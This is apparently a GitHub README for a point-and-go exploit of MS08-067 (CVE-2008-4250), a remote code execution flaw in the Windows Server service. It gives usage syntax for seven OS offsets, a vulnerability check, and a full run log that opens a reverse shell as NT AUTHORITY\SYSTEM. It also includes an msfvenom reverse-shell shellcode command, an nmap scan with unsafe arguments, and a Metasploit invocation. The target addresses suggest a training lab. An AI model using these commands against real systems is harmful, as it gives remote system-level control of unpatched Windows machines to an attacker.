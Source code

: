 # CVE-2008-4250

## Summary

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability." 

## ms08_067_netapi.py

My version of the exploit code. No need to start listener manually or generate shellcode manually just point and go.
Just still need to provide the correct offset as argument to the script.

## Dependencies

msfconsole
msfvenom

## Usage

```sh
# ./ms08_067_netapi.py

 ▄▄       ▄▄  ▄▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄▄▄▄
▐░░▌     ▐░░▌▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░░░░░░░░░░░▌▐░░░░░░░░░░░▌
▐░▌░▌   ▐░▐░▌▐░█▀▀▀▀▀▀▀▀▀ ▐░█░█▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀█░▌▐░█░█▀▀▀▀▀█░▌▐░█▀▀▀▀▀▀▀▀▀  ▀▀▀▀▀▀▀▀▀█░▌
▐░▌▐░▌ ▐░▌▐░▌▐░▌          ▐░▌▐░▌    ▐░▌▐░▌       ▐░▌▐░▌▐░▌    ▐░▌▐░▌                   ▐░▌
▐░▌ ▐░▐░▌ ▐░▌▐░█▄▄▄▄▄▄▄▄▄ ▐░▌ ▐░▌   ▐░▌▐░█▄▄▄▄▄▄▄█░▌▐░▌ ▐░▌   ▐░▌▐░█▄▄▄▄▄▄▄▄▄         ▐░▌
▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌▐░▌  ▐░▌  ▐░▌ ▐░░░░░░░░░▌ ▐░▌  ▐░▌  ▐░▌▐░░░░░░░░░░░▌       ▐░▌
▐░▌   ▀   ▐░▌ ▀▀▀▀▀▀▀▀▀█░▌▐░▌   ▐░▌ ▐░▌▐░█▀▀▀▀▀▀▀█░▌▐░▌   ▐░▌ ▐░▌▐░█▀▀▀▀▀▀▀█░▌      ▐░▌
▐░▌       ▐░▌          ▐░▌▐░▌    ▐░▌▐░▌▐░▌       ▐░▌▐░▌    ▐░▌▐░▌▐░▌       ▐░▌     ▐░▌
▐░▌       ▐░▌ ▄▄▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄█░█░▌▐░█▄▄▄▄▄▄▄█░▌▐░█▄▄▄▄▄█░█░▌▐░█▄▄▄▄▄▄▄█░▌    ▐░▌
▐░▌       ▐░▌▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░░░░░░░░░░░▌ ▐░░░░░░░░░▌ ▐░░░░░░░░░░░▌   ▐░▌
 ▀         ▀  ▀▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀   ▀▀▀▀▀▀▀▀▀▀▀     ▀

  *~ OFFSET ~*
  [1] Windows XP SP0/SP1 Universal
  [2] Windows 2000 Universal (port:139,445)
  [3] Windows 2003 SP0 Universal
  [4] Windows 2003 SP1 English
  [5] Windows XP SP3 French (NX)
  [6] Windows XP SP3 English (NX)
  [7] Windows XP SP3 English (AlwaysOn NX)

[nighter@nighter.se] - CVE-2008-4250

Usage: ./ms08_067_netapi.py <HOST>:<PORT> <LHOST> <LPORT> [1-7]

EXAMPLE: ./ms08_067_netapi.py '10.10.10.70' check
EXAMPLE: ./ms08_067_netapi.py '10.10.10.70' vuln
EXAMPLE: ./ms08_067_netapi.py '10.10.10.70:445' 10.10.14.24 1337 1

```

## Check if server is vulnerable

```sh
 ./ms08_067_netapi.py 10.11.1.xxx vuln
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-25 07:55 EST
Nmap scan report for 10.11.1.227
Host is up (0.091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:50:56:B8:67:4D (VMware)

Host script results:
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
```

## Check offset to use.

Here you can find what OS version is run to know what offset to use as argument to the script.

```sh
./ms08_067_netapi.py 10.11.1.xxx check
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-25 07:56 EST
Nmap scan report for 10.11.1.227
Host is up (0.091s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:50:56:B8:67:4D (VMware)

Host script results:
| smb-os-discovery:
|   OS: Windows 2000 (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_2000::-
|   Computer name: xxx
|   NetBIOS computer name: xxx\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-02-25T14:42:25+02:00

Nmap done: 1 IP address (1 host up) scanned in 1.53 seconds
```


## Run exploit

```sh
./ms08_067_netapi.py 10.11.1.xxx:139 10.11.0.xxx 4444 2
[+] Start listener
[+] Build shellcode
PAYLOAD => windows/shell_reverse_tcp
LHOST => 10.11.0.xxx
LPORT => 4444
[*] Started reverse TCP handler on 10.11.0.xxx:4444
[+] Exploit
Windows 2000 Universal

[+]Initiating connection
[-]connected to ncacn_np:10.11.1.227[\pipe\browser]
[*] Command shell session 1 opened (10.11.0.xxx:4444 -> 10.11.1.xxx:1072) at 2019-02-25 08:06:18 -0500

[*] Done

C:\WINNT\system32>whoami
whoami
NT AUTHORITY\SYSTEM
```

# Manual solution with legacy exploit code.

## ms08_067_2018.py

This is the code PoC have improved. If you would like to use the original exploit you use this methology.

## Generating Shellcode

Just execute and paste into exploit code.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=1.3.3.7 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Also: nmap has a good OS discovery script that pairs well with this exploit:

```sh
nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery 192.168.1.1
```

## Usage

```sh
./ms08_067_2018.py xx.xx.xx.xx 1 445
```

## Metasploit

```sh
msfconsole -r ms08_067_netapi.rc
```
